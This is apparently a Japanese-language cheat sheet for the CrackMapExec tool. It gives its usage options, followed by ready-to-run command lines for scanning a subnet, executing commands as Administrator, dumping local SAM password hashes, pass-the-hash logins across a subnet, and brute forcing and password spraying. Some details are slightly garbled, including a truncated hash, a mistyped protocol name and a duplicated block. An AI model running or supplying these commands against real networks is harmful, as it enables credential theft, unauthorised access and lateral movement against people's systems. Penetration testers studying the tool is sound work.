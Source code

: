 # crackmapexec
usage: crackmapexec [-h] [-t THREADS] [--timeout TIMEOUT] [--jitter INTERVAL] [--darrell] [--verbose]
                    {winrm,smb,ldap,mssql,ssh} ...   
options:   
 <p> -h, --help &emsp;このヘルプメッセージを表示し、終了します <br>     
  -t THREADS&emsp;  同時に使用するスレッド数を設定します (デフォルト: 100)<br>  
  --timeout TIMEOUT&emsp;  各スレッドの最大タイムアウトを秒単位で設定します (デフォルト: なし)<br>   
  --jitter INTERVAL&emsp;  各接続の間にランダムな遅延を設定する (デフォルト: なし) <br> 
  --darrell   &emsp;ダレルに手を貸す   <br>
  --verbose  &emsp;  詳細な出力を有効にする</p>   

プロトコルを指定します:   
  利用可能なプロトコル   {winrm,smb,ldap,mssql,ssh}   
    winrm:&emsp;	WINRMを使用した独自のもの      
    smb: &emsp;        SMBを使用した独自のもの  
    ldap: &emsp;        LDAPを使用した独自のもの   
    mssq:&emsp;    MSSQLを使用した独自のもの   
    ssh:&emsp;           SSHを使用した独自のもの   





# ネットワーク列挙
```
crackmapexec 192.168.0.0/24
```
# コマンドの実行
```
#whoamiの実行
crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami
```
-xフラグを使用して、PowerShellコマンドを直接実行することも出来る
```
crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'
```
# ログインしているユーザーを確認
```
crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --lusers
```
# ローカル SAM ハッシュのダンプ
```
crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --sam
```
# ハッシュの受け渡し
CME は、-H フラグを使用した Passing-The-Hash 攻撃を使用した SMB 経由の認証をサポート
```
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
```
```
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
```
# サブネットに対するハッシュの受け渡し
admin + hash を使用して smb 経由ですべてのサブネット マシンにログインします。–local-auth と見つかったローカル管理者パスワードを使用することにより、これを使用して、そのローカル管理者パス/ハッシュを使用してサブネット全体の smb 対応マシンにログインできます。
```
crackmapexec smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaa35b51404ee:5509de4ff0a6e8d9f4a61100e51' --local-auth
```
# ブルート フォーシングとパスワード スプレー
これを行うには、crackmapexec をサブネットでポイントし、creds を渡します   
SMB の例
```
crackmapexec 10.0.2.0/24 -u ‘admin’ -p ‘P@ssw0rd' 
```
すべてのプロトコルは、総当たり攻撃とパスワード スプレーをサポートしています。特定のプロトコルを使用したブルート フォース/パスワード スプレーの詳細については、適切な wiki セクションを参照してください。
ファイルまたは複数の値を指定することにより、CME は指定されたプロトコルを使用して、すべてのターゲットに対して自動的にブルート フォース ログインを行います。
-u,-pそれぞれテキストファイルでもクラック出来る。
